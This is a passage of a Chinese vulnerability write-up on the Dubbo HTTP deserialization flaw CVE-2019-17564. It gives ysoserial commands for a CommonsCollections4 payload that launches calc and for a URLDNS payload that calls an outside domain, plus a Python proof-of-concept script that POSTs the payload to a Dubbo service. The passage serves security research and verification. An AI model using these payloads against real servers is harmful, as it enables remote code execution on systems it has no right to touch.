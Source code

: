 
利用ysoserial生成payload

```
java -jar ysoserial-0.0.5.jar CommonsCollections4 "calc" > payload.out

java -jar ysoserial-0.0.5.jar URLDNS http://dubbo.bit.0y0.link > urldns.out
```

在burp中通过“paste from file”将payload粘贴至burp中，**注意burp导入的数据，可能和原始数据不一致！！！**

如果存在问题，可以使用如下脚本，利用DNS请求来验证

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-

__author__ = 'bit4woo'
__github__ = 'https://github.com/bit4woo'

import requests
import subprocess

'''
目标站的特征：
http://127.0.0.1:8080/org.apache.dubbo.samples.http.api.DemoService
访问的目标网站是dubbo的httpservice
'''

java7 =r"C:\Program Files\Java\jdk1.7.0\bin\java"
ys_filepath = r'D:\ser\ysoserial-0.0.5.jar'

def poc(url):
    try:
        popen = subprocess.Popen([java7, '-jar', ys_filepath, "URLDNS", "http://dubbo.bit.0y0.link"],
                                 stdout=subprocess.PIPE)
        payload = popen.stdout.read()
        proxy = {"http":"http://127.0.0.1:8081"}
        r = requests.post(url, data=payload, timeout=5,proxies = proxy)#只有POST方法会触发
    except Exception as e:
        print(e)

if __name__ == '__main__':
    poc("http://127.0.0.1:8080/org.apache.dubbo.samples.http.api.DemoService")

```


![Snipaste_2020-07-17_17-50-49.png](img/CVE-2019-17564 Dubbo HTTP协议反序列化漏洞/poc.png)
### 漏洞分析

#### 漏洞调用栈
